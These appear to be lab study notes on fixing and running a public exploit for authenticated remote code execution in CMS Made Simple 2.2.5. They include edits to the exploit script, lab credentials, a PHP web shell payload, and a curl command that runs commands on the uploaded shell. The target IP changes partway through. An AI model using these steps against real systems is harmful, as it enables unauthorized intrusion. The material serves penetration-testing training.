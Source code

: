
# Selecting Vuln & Fixing Code

Don't often result in memory corruption, therefore, they're not affected by DEP, ASLR, etc protections and exploits are significantly easier to re-purpose.  
  
However, public web app exploits don't take into account additional protections like htaccess, modsecurity, etc.  
  
Important to properly read code to understand what considerations must be taken in our editing process.  
Several key questions needed to ask while approaching the code:  
  
- Does it initiate an HTTP or HTTPS connection?  
- Does it access a web application specific path or route?  
- Does the exploit leverage a pre-authentication vulnerability?  
- If not, how does the exploit authenticate to the web application?  
- How are the GET or POST requests crafted to trigger and exploit the vulnerability?  
- Does it rely on default application settings (such as the web pathof the application) that may have been changed after installation?  
- Will oddities such as self-signed certificates disrupt the exploit?  
  
  
Ex:  
	During an assessment, we discover a Linux host w/ an _apache2_ server exposed.  
After enumerating the server, we find an install of _CMS Made Simple_ v2.2.5 listening on TCP port 443.  
```bash
nmap -sCV -p 443 192.168.198.45
	PORT    STATE SERVICE  VERSION
	443/tcp open  ssl/http Apache httpd 2.4.25 ((Debian))
	| ssl-cert: Subject: commonName=pwk.labs.offensive-security.com/organizationName=Offensive Security/stateOrProvinceName=New York/countryName=US
	| Not valid before: 2019-04-07T13:51:10
	|_Not valid after:  2019-05-07T13:51:10
	|_http-server-header: Apache/2.4.25 (Debian)
	|_http-title: Home - Offsec PWK CMS Made Simple
	|_ssl-date: TLS randomness does not represent time
	| tls-alpn: 
	|_  http/1.1
	|_http-generator: CMS Made Simple - Copyright (C) 2004-2019. All rights reserved.
```

This version appears to be vuln to RCE & a public exploit is available on Exploit-DB (*44976*)  
  
The vuln's post-authentication, but we've discovered a valid app creds (*admin/ HUYfaw763*) on another machine during enum  
  
  
Looking at the code, things need to be updated:  
  
_Line 12_:  
```html
base_url = "http://192.168.1.10/cmsms/admin"
```
	Base URL variable needs to be changed to match the env  
	Same for the IP addr  
	Protocol needs to be set to HTTPS  
```html
base_url = "https://192.168.198.45/admin
```


Browsing to https://192.168.198.45/admin shows a Connection not Secure message:    **NOTE THE HTTPS**
	_invalid security certificate_ (SEC_ERROR_UNKNOWN_ISSUER or ERROR_SELF_SIGNED_CERT)
![[self-signed.png]]

As the cert can't be validated, we must account for this in the exploit code.  
  
The exploit uses the _import requests_ library (_Line 9_) to comm w/ the target, making 3 POST requests.  
  
_Lines 34, 55, 80:_  
```python
response = requests.post(url, data=data, allow_redirects=False)  
...  
response = requests.post(url, data=data, files=txt, cookies=cookies)  
...  
response = requests.post(url, data=data, cookies=cookies, allow_redirects=False)
```


The official doc indicates that the SSL cert can be ignored if we set the _verify_ param to False: [https://docs.python-requests.org/en/latest/user/advanced/#ssl-cert-verification](https://docs.python-requests.org/en/latest/user/advanced/#ssl-cert-verification)  

```python
response = requests.post(url, data=data, allow_redirects=False, verify=False)  
...  
response = requests.post(url, data=data, files=txt, cookies=cookies, verify=False)  
...  
response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)
```


Also need to change the creds to match those found.  
  
_Lines 15 & 16:_  
```python
username = "admin"  
password = "HUYfaw763"
```


Payload doesn't need to be changed as it only executes sys cmds passed in cleartext w/in GET:  
_Lines 20-21:_  
```python
php_filename = 'shell.php'  
payload = "<?php system($_GET['cmd']);?>"
```


Running the script throws an error:  
```bash
[+] Authenticated successfully with the supplied credentials
Traceback (most recent call last):
  File "44976_modified.py", line 103, in <module>
    run()
  File "44976_modified.py", line 94, in run
    cookies,csrf_token = authenticate()
  File "44976_modified.py", line 38, in authenticate
    return response.cookies, parse_csrf_token(response.headers['Location'])
  File "44976_modified.py", line 24, in parse_csrf_token
    return location.split(csrf_param + "=")[1]
IndexError: list index out of range
```

# Index Out of Range Error

Shows an exception was triggered during the execution of the _parse_csrf_token_ on _Line 24_ of the code.  
	Tells us the code tried to access a non-existent element of a Python list by accessing its 2nd element:  
_Lines 18, 23-24:_  
```python
csrf_param = "__c"  
...  
def parse_csrf_token(location):  
return location.split(csrf_param + "=")[1]
```

Looking at the code, you can see it uses the _split_ method to slice the string stored in the _location_ parameter passed to the _parse_csrf_token_ func.  
  
Python doc for _split_ indicates that the method slices the input string using an optional delimiter passed as a first argument.  
The string slices returned by _split_ are then stored in a _List_ object that can be accessed via an index:  
```python
python
>>> mystr = "Kali*-*Linux*-*Rocks"
>>> result = mystr.split("*-*")
>>> result
['Kali', 'Linux', 'Rocks']
>>> result[1]
'Linux'
```

To help troubleshoot, we can insert a _print_ statement btw lines *23* & *24* in the function before the return instructions:
```python
def parse_csrf_token(location):  
print "[+] String being split: " + location  
return location.split(csrf_param + "=")[1]
```


Running the exploit again will print the full string before the _split_ method is invoked:  
```bash
[+] String being split: https://192.168.198.45/admin?_sk_=178967e0c571882184a  
```


As discovered, while the code expected the input string for _csrf_param_ to be “\_\__c_”, but instead received “\_\_sk\_\_”  
  
So fixing the parameter corrects the exploit:  
_Line 18:_  
```python
csrf_param = "_sk_"
```


Fix:  
```bash
[+] File copied successfully  
[+] Exploit succeeded, shell can be found at: https://192.168.222.44/uploads/shell.php  
```


Now we can validate the exploit by attaching to the php shell either in the browser or w/ [curl](OS%20Commands.md#curl):  
```bash
curl -k https://192.168.222.44/uploads/shell.php?cmd=whoami  
www-data
```